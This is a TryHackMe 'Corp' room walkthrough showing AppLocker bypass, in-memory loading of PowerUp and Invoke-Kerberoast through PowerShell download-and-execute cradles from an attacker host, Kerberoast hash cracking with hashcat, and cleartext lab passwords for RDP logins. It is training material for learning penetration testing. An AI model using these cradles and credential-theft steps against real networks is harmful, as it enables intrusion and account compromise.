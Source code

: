 # Corp

**Room Link:** [https://tryhackme.com/room/corp](https://tryhackme.com/room/corp)



## Bypassing Applocker



Load PowerUp.ps1 into memory.

**Kali**

```
wget https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1
python2 -m SimpleHTTPServer 81
```

Add the following line at the bottom to PowerUp.ps1 so it Invokes all checks automatically once downloaded

**PowerUp.ps1**

```
Invoke-AllChecks
```

**Victim(powershell)**

<pre><code>powershell -ep bypass
<strong>iex​(New-Object Net.WebClient).DownloadString('http://$KALI:81/PowerUp.ps1') 
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (3) (3) (2).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (1) (1) (8).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
echo "dHFqSnBFWDlRdjh5YktJM3lIY2M9TCE1ZSghd1c7JFQ=" | base64 -d
```

<figure><img src="../../.gitbook/assets/image (11) (5).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
xfreerdp +clipboard /u:"Administrator" /v:$VICTIM:3389 /size:1024x568 /smart-sizing:800x1200
Password: tqjJpEX9Qv8ybKI3yHcc=L!5e(!wW;$T
```

<figure><img src="../../.gitbook/assets/image (7) (2) (4).png" alt=""><figcaption></figcaption></figure>

## Kerberoasting

Run the below command from the Administrator account we just got access to.

**Victim(powershell)**

```
setspn -T medin -Q ​ */*
```

<figure><img src="../../.gitbook/assets/image (10) (3).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
wget https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1
python2 -m SimpleHTTPServer 81
```

Add the following line at the bottom to Invoke-Kerberoast.ps1 so it runs automatically once downloaded

```
 Invoke-Kerberoast -OutputFormat hashcat ​ |fl
```

**Victim(powershell)**

```
powershell -ep bypass
powershell -c "iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.131.240:81/Invoke-Kerberoast.ps1'))"
```

<figure><img src="../../.gitbook/assets/image (9) (4).png" alt=""><figcaption></figcaption></figure>

Run this to get rid of all the spaces.

**Kali**

```
cat hash.txt | sed 's/[[:space:]]//g' |tr -d '\n' | sed 's/$krb5tgs$23$*/\n&/g' > hash.txt
```

Lets use hashcat to bruteforce this password. The type of hash we're cracking is Kerberos 5 TGS-REP etype 23 and the hashcat code for this is 13100.

**Kali**

```
hashcat -m 13100 -a 0 hash2.txt /usr/share/wordlists/rockyo.txt --force
hashcat -m 13100 -a 0 hash2.txt /usr/share/wordlists/rockyou.txt --force --show
```

<figure><img src="../../.gitbook/assets/image (1) (4).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
xfreerdp +clipboard /u:"fela" /v:$VICTIM:3389 /size:1024x568 /smart-sizing:800x1200
Password: rubenF124
```




